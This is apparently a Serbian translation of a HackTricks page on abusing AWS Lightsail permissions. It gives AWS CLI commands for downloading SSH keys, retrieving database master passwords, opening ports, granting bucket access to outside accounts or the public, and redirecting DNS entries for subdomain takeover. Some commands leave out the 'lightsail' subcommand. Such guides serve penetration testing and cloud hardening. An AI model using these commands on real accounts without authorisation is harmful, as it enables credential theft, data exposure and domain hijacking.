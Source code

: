 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

Za više informacija o Lightsail pogledajte:

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Važno je napomenuti da Lightsail **ne koristi IAM roles belonging to the user** već pripada AWS managed account, tako da ne možete zloupotrebiti ovu uslugu za privesc. Međutim, **osetljivi podaci** kao što su code, API keys i database info mogu se pronaći u ovoj usluzi.

### `lightsail:DownloadDefaultKeyPair`

Ovo dopuštenje će vam omogućiti da preuzmete SSH keys za pristup instancama:
```
aws lightsail download-default-key-pair
```
**Potencijalni uticaj:** Pristup osetljivim informacijama unutar instanci.

### `lightsail:GetInstanceAccessDetails`

Ova dozvola će vam omogućiti da generišete SSH ključeve za pristup instancama:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potencijalni uticaj:** Pronađite osetljive informacije unutar instanci.

### `lightsail:CreateBucketAccessKey`

Ovo dopuštenje će vam omogućiti da dobijete ključ za pristup bucketu:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potential Impact:** Pronađite osetljive informacije unutar bucket-a.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ova dozvola vam omogućava da dobijete kredencijale za pristup bazi podataka:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potencijalni uticaj:** Pronaći osetljive informacije u bazi podataka.

### `lightsail:UpdateRelationalDatabase`

Ova dozvola će vam omogućiti da promenite lozinku za pristup bazi podataka:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Ako baza podataka nije javna, možete je takođe učiniti javnom korišćenjem ovih dozvola:
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Potential Impact:** Pronaći osetljive informacije u bazi podataka.

### `lightsail:OpenInstancePublicPorts`

Ovo dopuštenje omogućava otvaranje portova prema Internetu
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potencijalni uticaj:** Pristup osetljivim portovima.

### `lightsail:PutInstancePublicPorts`

Ova dozvola omogućava otvaranje portova ka Internetu. Imajte na umu da će poziv zatvoriti svaki otvoreni port koji nije naveden.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potencijalni uticaj:** Pristup osetljivim portovima.

### `lightsail:SetResourceAccessForBucket`

Ova dozvola omogućava instancama pristup bucket-u bez dodatnih kredencijala.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Potencijalni uticaj:** Mogući novi pristup buckets-ima sa osetljivim informacijama.

### `lightsail:UpdateBucket`

Sa ovom dozvolom napadač bi mogao svom AWS nalogu dodeliti pristup za čitanje nad buckets-ima ili čak učiniti buckets javnim za sve:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potential Impact:** Mogući novi pristup bucket-ovima koji sadrže osetljive informacije.

### `lightsail:UpdateContainerService`

Sa ovom dozvolom napadač bi mogao da dodeli pristup privatnim ECR-ovima putem servisa za kontejnere.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potencijalni uticaj:** Dobiti osetljive informacije iz privatnog ECR

### `lightsail:CreateDomainEntry`

Napadač koji ima ovo dopuštenje može kreirati poddomen i usmeriti ga na svoju IP adresu (subdomain takeover), ili sastaviti SPF zapis koji mu omogućava da spoof-uje mejlove sa domena, ili čak postavi glavni domen na svoju IP adresu.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Mogući uticaj:** Preuzimanje domena

### `lightsail:UpdateDomainEntry`

Napadač sa ovom dozvolom može kreirati subdomain i usmeriti ga na sopstvenu IP adresu (subdomain takeover), ili napraviti SPF record koji mu omogućava da lažira emailove sa domena, ili čak postaviti glavni domen na sopstvenu IP adresu.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencijalni uticaj:** Takeover a domain

{{#include ../../../../banners/hacktricks-training.md}}
